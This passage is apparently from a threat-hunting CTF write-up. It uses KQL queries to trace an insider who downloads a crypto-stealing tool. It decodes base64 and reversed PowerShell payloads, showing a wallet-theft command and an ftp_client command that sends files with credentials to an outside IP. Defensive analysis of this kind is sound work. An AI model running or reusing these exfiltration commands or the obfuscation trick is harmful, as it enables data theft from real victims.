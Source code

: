 ```sql
OutboundNetworkEvents
| where src_ip == '10.10.0.2'
| where url endswith '.exe'
```

### **Question 14**: What is the name of the crypto theft tool Jane downloads to help with her operation?

We got information about this question from Question 13.

### **Question 15**: To what path does Jane point her data exfiltration tool?

If you filter `ProcessEvents` table for known filenames you will get no results and that's odd. The rogue employee must have used them somehow and we know it jane (username: jasmith).<br>
If you remember Barry he executed encoded payload with powershell, lets look into that.

```sql
ProcessEvents
| where  username == 'jasmith'
| where process_commandline has 'powershell.exe'
| project process_commandline
```

```bash
└─$ echo 'Y3J5cHRvX3N0ZWFsZXIuZXhlIC0tZGFpbHkgLS1pbnB1dCBcXFxcTmV0d29ya1NoYXJlXFxjcml0aWNhbF9pbmZyYXN0cnVjdHVyZVxcQ3J5cHRvX1dhbGxldF9TdG9yYWdlX0xvY2F0aW9uc1xcIC0tb3V0cHV0IEM6XFxVc2Vyc1xcamFzbWl0aFxcVG9UaGVNb29uXFw='
| base64 -d
crypto_stealer.exe --daily --input \\\\NetworkShare\\critical_infrastructure\\Crypto_Wallet_Storage_Locations\\ --output C:\\Users\\jasmith\\ToTheMoon\\
```

### **Question 16**: At what tempo does she set the tool to run? (one word)

We got information about this question from Question 15.

### **Question 17**: What password does Jane use for the tool?

From Question 15 we can observe a different encoded payload being executed.

{% raw %}

```bash
└─$ echo -n 'KCAnXFxub29NZWhUb1RcXGh0aW1zYWpcXHNyZXNVXFw6QyBodGFwLS0gMTIxLjMyLjY1LjI4MSBwaS0tIDEyIHRyb3AtLSAibW9jLmxhaWNuYW5pZmFyZWRvdHB5cmNuZSIgbWl0Y2l2LS0gNURONEhydUZGMHRpM2s0dGxsM3dPVFlSQ2hjdW0ydG9nVSBzc2FwLS0gaHRpbXNhaiByZXN1LS0geWxpYWQtLSBleGUudG5laWxjX3B0ZicgLXNwbGl0ICcnIHwgJXskX1swXX0pIC1qb2luICcn' | base64 -d
( '\\nooMehToT\\htimsaj\\sresU\\:C htap-- 121.32.65.281 pi-- 12 trop-- "moc.laicnanifaredotpyrcne" mitciv-- 5DN4HruFF0ti3k4tll3wOTYRChcum2togU ssap-- htimsaj resu-- yliad-- exe.tneilc_ptf' -split '' | %{$_[0]}) -join ''                                                                     

└─$ echo -n '...' | base64 -d | rev
'' nioj- )}]0[_${% | '' tilps- 'ftp_client.exe --daily --user jasmith --pass Ugot2muchCRYTOw3llt4k3it0FFurH4ND5 --victim "encryptoderafinancial.com" --port 21 --ip 182.56.23.121 --path C:\\Users\\jasmith\\ToTheMoon\\' (
```

{% endraw %}

> The powershell code is first encoded in Base64 for first level of obfuscation and then it seems to be reversed, the command assembles command and executes it.
{: .prompt-info }
